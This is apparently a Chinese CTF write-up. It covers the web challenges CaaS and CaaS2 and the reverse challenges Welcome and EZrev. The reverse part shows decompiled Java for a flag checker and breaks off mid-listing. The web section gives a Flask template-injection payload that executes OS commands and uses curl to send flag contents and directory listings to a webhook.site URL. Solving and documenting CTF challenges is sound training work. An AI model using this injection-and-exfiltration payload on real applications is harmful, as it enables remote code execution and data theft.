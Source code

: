 *payload*
```python
{{request.application.__builtins__.exec(request.values["team_name"])}}
```
*传参*
```python
name={{request.application.__builtins__.exec(request.values["team_name"])}}&team_name=__import__('os').system('curl https://webhook.site/4c54ec5c-1d5f-4f25-b755-53bfbe650b5c?user=$(cat flag.txt)')
```
### CaaS2
与上一题payload一样,但是这次需要找到flag文件,执行命令
*传参*
```python
name={{request.application.__builtins__.exec(request.values["team_name"])}}&team_name=__import__('os').system('curl https://webhook.site/4c54ec5c-1d5f-4f25-b755-53bfbe650b5c?user=$(ls|tr \'\n\' \'~\')')
```
文件名`s3cur3_fl4g_f1l3_.txt` cat会丢失掉{},使用base64

# reverse
### Welcome
ida打开即可
### EZrev
给了一个.class文件,jadx打开
```java
package defpackage;

import java.util.Arrays;

/* renamed from: EZrev  reason: default package */
/* loaded from: EZrev.class */
public class EZrev {
    public static void main(String[] strArr) {
        if (strArr.length != 1) {
            System.out.println("L");
            return;
        }
        String str = strArr[0];
        if (str.length() != 31) {
            System.out.println("L");
            return;
        }
        int[] array = str.chars().toArray();
        for (int i = 0; i < array.length; i++) {
            if (i % 2 == 0) {
                array[i] = (char) (array[i] ^ 19);
            } else {
                array[i] = (char) (array[i] ^ 55);
            }
        }
        for (int i2 = 0; i2 < array.length / 2; i2++) {
            if (i2 % 2 == 0) {
                array[i2] = (char) (array[(array.length - 1) - i2] + 20);
                array[(array.length - 1) - i2] = (char) (array[i2] - 10);
            } else {
                array[i2] = (char) (array[i2] + 30);
            }
        }
        if (Arrays.equals(array, new int[]{130, 37, 70, 115, 64, 106, 143, 34, 54, 134, 96, 98, 125, 98, 138, 104, 25, 3, 66, 78, 24, 69, 91, 80, 87, 67, 95, 8, 25, 22, 115})) {
            System.out.println("W");
        } else {
```